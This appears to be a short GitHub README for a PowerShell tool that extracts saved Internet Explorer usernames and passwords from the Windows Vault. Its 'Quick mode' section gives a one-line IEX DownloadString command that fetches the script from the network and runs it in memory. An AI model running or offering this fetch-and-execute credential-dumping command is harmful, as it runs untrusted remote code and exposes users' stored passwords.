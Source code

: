 # Get-InternetExplorerPasswords
Get username/password/resource from Internet Explorer for current user in Windows 8-10 (over "Windows Vault").

# Quick mode
```powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/A888R/Get-InternetExplorerPasswords/master/Get-InternetExplorerPasswords.ps1')```

# Screenshot
![](https://a888r.ru/img/example.png)

